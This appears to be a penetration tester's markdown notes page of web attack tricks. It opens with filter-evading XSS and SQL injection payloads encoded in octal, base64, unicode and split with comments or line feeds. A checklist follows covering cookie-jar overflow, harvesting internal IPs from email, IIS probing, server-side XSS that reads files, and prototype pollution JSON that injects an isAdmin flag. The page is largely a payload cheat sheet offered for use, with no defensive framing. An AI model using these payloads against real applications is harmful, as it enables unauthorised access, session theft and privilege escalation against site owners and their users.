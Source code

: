 ```js
javascript:74163166147401571561541571411447514115414516216450615176 //octal encoding
<iframe src="javascript:alert(`xss`)"> //unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- //using comments in SQL query to break up statement
new Function`alt\`6\``; //using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ //base64 encoding the javascript
%26%2397;lert(1) //using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> //Using Line Feed (LF) line breaks
<BODY onload!//$%&()*~+-_.,:;?@[/|\]^`=confirm()> // use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
<a href="java%0ascript:confirm(document.domain)">haha</a>
```


## Things to Try

- cookiejar overflow: https://medium.com/@ibm_ptc_security/cookie-jar-overflow-attack-ae5135b6100
  - fill the app with so many junk cookies (past browser limit) it overwrites real cookies with ones that don't have the HTTPOnly flag
    - this is better in conjunction with xss

- Get company internal IPs via email (use the contact pages): https://medium.com/@far00t01/postmaster-thanks-for-the-internal-ip-2fcc1f4e541e 

- Basic IIS misconfigurations: https://medium.com/@far00t01/asp-net-microsoft-iis-pentesting-04571fb071a4
  - use : `GET /a.aspx HTTP/1.1` 

- Hyperlink injection: https://medium.com/@far00t01/hyperlink-injection-an-underrated-vulnerability-29e93bbd967b

- server-sided XSS: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
    - can even read files

- prototype pollution: 
  - look for reflections in POST requests of objects. find object property names
  - add tye proto, and then try and break the json above it and see if the response reflects your input
      ```js

      //first try
      {
        "name":"sampleData",
        "isAdmin":true,
        "__proto__": {
          "status":500
        }
      }

      //second try
      {
        "name":"sampleData",
        "__proto__": {
          "status":500,
          "isAdmin":true
        }
      }

      //one liner
      user={__proto__:{toString:function(){alert("Prototype Pollution Detected")}}};
      ```

